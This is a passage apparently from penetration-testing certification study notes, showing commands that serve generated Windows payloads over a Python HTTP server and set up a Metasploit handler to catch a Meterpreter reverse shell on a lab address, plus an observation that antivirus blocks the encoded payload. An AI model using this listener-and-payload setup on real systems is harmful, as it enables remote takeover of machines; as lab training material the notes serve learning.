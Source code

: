 - Test each of the above generated payloads, like before

```bash
cd /home/kali/certs/ejpt/Windows_Payloads
sudo python -m http.server 8080
msfconsole -q

use multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.31.128
set LPORT 1234
run
```

![](.gitbook/assets/image-20230415213745031.png)

> 📌 Modern antivirus detects and blocks the encoded payload as soon as the download is started:
>
> ![](.gitbook/assets/image-20230415214414552.png)
